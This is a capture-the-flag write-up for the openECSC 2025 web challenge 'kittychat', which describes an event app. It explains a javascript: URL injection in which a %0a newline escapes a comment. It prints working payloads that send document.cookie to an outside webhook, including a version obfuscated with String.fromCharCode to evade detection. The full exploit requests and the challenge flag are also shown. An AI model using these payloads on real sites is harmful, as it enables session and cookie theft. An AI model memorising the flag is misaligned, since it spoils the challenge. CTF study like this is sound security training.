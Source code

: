 # openECSC 2025

## Challenge: kittychat

## Tags: web

## Difficulty: Medium

## Table of Contents

- [Solution Overview](#solution-overview)
- [Tools Used](#tools-used)
- [Solution](#solution)
- [Solution Script](#solution-script)
- [Flag](#flag)

### Solution Overview

EventHub lets users create events with arbitrary URLs (protocol + domain + path) that auto-redirect on the event page. The admin bot visits reported URLs on `http://127.0.0.1/` with a non-HttpOnly cookie containing the flag. By creating an event with `protocol=javascript` and injecting a percent-encoded newline (`%0a`) in the path, I break out of the `javascript://` comment and execute arbitrary JavaScript in the admin's browser context. This allows me to exfiltrate `document.cookie` to a webhook, capturing the flag. The exploit abuses browser URL decoding behavior where `%0a` becomes a real newline before the `javascript:` URL is interpreted.

### Tools Used

- Python 3 with `requests` library
- [webhook.site](https://webhook.site) for flag exfiltration
- Browser DevTools for debugging

### Solution

When I first opened the challenge, I saw a simple event management app. Users can:
- Create events with a name, protocol, domain, and path
- View event details at `/event/<id>`
- Report URLs to an admin bot

The event detail page caught my attention immediately—it has an auto-redirect feature:

```html
<script>
  if (new URLSearchParams(window.location.search).get("auto_redir") === "1") {
    window.location = "{{ event_url.to_url() }}";
  }
</script>
```

**First thought**: "If I control `event_url`, can I make this redirect somewhere malicious?"

#### Finding the Pieces

##### Piece 1: The Admin Cookie

Looking at `main.py`, the admin bot does something interesting:

```python
driver.add_cookie({"name": "admin", "value": FLAG, "httpOnly": False})
```

**Aha!** The flag is in a cookie that's **not HttpOnly**, meaning JavaScript can read it. If I can execute JS in the admin's context, I win.

##### Piece 2: The Report Restriction

The `/report` endpoint only accepts URLs starting with `http://127.0.0.1/`:

```python
if not url.startswith("http://127.0.0.1/"):
    return "Invalid URL", 400
```

So I need to make my payload work via a URL on the same origin as the admin's cookie.

### Piece 3: The URL Construction

When creating an event, the app stores `protocol`, `domain`, and `path` separately. The URL is reconstructed as:

```python
f"{protocol}://{domain}{path}"
```

**Key observation**: There's NO validation on what `protocol` can be! It just lowercases it. What if I use `javascript` as the protocol?

#### The Exploit Chain

Here's my thought process:

1. **"Can I use `javascript:` URLs?"**  
   Yes! The app accepts any protocol. So I can create: `javascript://something`

2. **"But wait, `javascript://` makes everything a comment..."**  
   Right. In `javascript://alert(1)`, everything after `//` is a comment. The code won't execute.

3. **"How do I break out of the comment?"**  
   Comments in JavaScript only go to the end of the line. If I inject a **newline**, the next line will execute!

4. **"Can I inject a newline in the URL?"**  
   Yes! I can use `%0a` (URL-encoded newline) in the `path` field. Browsers decode this **before** interpreting the `javascript:` URL.

5. **"So the final payload would be..."**  
   `javascript://ignored%0afetch("https://webhook.site/...?c=" + document.cookie)`

When the browser decodes `%0a` → newline → the `fetch()` runs!

#### Weaponizing the Exploit

I needed to exfiltrate the cookie to my webhook. Here's the JavaScript payload:

```javascript
fetch("https://webhook.site/8b78691f-3d1f-4ca1-bcaa-0bcb344a8508?c=" + encodeURIComponent(document.cookie))
```

To avoid WAF issues or detection, I obfuscated the webhook URL using `String.fromCharCode()`:

```javascript
fetch(String.fromCharCode(104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,56,98,55,56,54,57,49,102,45,51,100,49,102,45,52,99,97,49,45,98,99,97,97,45,48,98,99,98,51,52,52,97,56,53,48,56,63,99,61).concat(encodeURIComponent(document.cookie)))
```

*(Not strictly necessary, but felt cool 😎)*

#### Putting It All Together

##### Step 1: Create the Malicious Event

I sent this POST request to `/event`:

```
POST /event HTTP/1.1
Content-Type: application/x-www-form-urlencoded

name=x&protocol=javascript&domain=x&path=%0afetch(String.fromCharCode(104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,56,98,55,56,54,57,49,102,45,51,100,49,102,45,52,99,97,49,45,98,99,97,97,45,48,98,99,98,51,52,52,97,56,53,48,56,63,99,61).concat(encodeURIComponent(document.cookie)))
```

This creates an event with URL:  
`javascript://x%0afetch(...)`

The app returned: `Location: /event/<id>`

##### Step 2: Trigger the Admin Bot

I reported this URL to the admin:

```
POST /report HTTP/1.1
Content-Type: application/x-www-form-urlencoded

url=http://127.0.0.1/event/<id>?auto_redir=1
```

When the admin visits, the page auto-redirects to our `javascript:` URL, the browser decodes `%0a`, the newline breaks the comment, and our `fetch()` executes—sending the cookie to my webhook!

##### Step 3: Capture the Flag

Checking my webhook, I received:

```
GET /?c=admin%3DopenECSC%7Bi_hate_browser_differentials_%F0%9F%A4%AE_202c574bc2f5%7D
```

Decoding: `admin=openECSC{i_hate_browser_differentials_🤮_202c574bc2f5}`

**Flag captured!**

### Solution Script

[exploit.py](exploit.py)

### Flag

**Flag**: `openECSC{i_hate_browser_differentials_🤮_202c574bc2f5}`
